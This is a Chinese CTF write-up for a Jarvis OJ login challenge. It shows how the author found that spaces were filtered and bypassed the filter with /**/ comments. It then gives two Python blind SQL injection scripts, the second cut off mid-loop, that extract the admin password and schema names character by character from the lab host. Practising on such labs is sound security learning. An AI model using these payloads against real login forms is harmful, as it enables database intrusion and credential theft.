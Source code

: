 所以猜测是分布验证用户名

测试 admin'#       admin提示密码错误   表示没有过滤 ‘ #

测试 admin'  and   1=1#     admin提示用户名错误   表示过滤了  =  或者and  或者空格

测试一下发现过滤了空格    随后发现可以用/**/ 来绕过空格的过滤

因此构成了一个sql盲注

直接引用师傅的code了

一、

```
import requests

def get_data():
    result = ""
    url = 'http://web.jarvisoj.com:32787/login.php'
    payload = {
        "username":'xx',
        "password":1,
    }
    username_template = "'/**/or/**/ascii(substr((select/**/password/**/from/**/admin),{0},1))>{1}#"
    chars = '0123456789@ABCDEFGHIJKLMNOPQRSTUVWXYZ_abcdefghijklmnopqrstuvwxyz'
    for i  in range(1,33):
        for char in chars:
            char_ascii = ord(char)
            username = username_template.format(i,char_ascii)
            payload['username'] = username
            response = requests.post(url,data=payload)
            length = len(response.text)
            # print(length)
            #返回的长度只有1191和1192
            if length>1191:
                print(char)
                result += char
                break
    print(result)

get_data()
```

二、

```
#encoding: utf-8
 #created by noble @ 2017.1.21
import requests
url = "http://web.jarvisoj.com:32787/login.php"
table_name_temp = "admin'/**/and/**/ascii(substr((select/**/table_name/**/from/**/information_schema.tables/**/where/**/table_schema=database()/**/limit/**/0,1),{0},1))>{1}#"
column_name_temp = "admin'/**/and/**/ascii(substr((select/**/column_name/**/from/**/information_schema.columns/**/where/**/table_name=0x61646D696E/**/limit/**/2,1),{0},1))>{1}#"
password_temp = "admin'/**/and/**/ascii(substr((select/**/password/**/from/**/admin/**/limit/**/0,1),{0},1))>{1}#"
result = ""
session = requests.Session()
char = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz"
for i in range(1, 50):      #设置字符长度为50
       for c in char:
              asc = ord(c)      #获取字符的ascii值
              username = password_temp.format(i, asc)
              data = {'username': username,
              'password': 'admin'
              }
```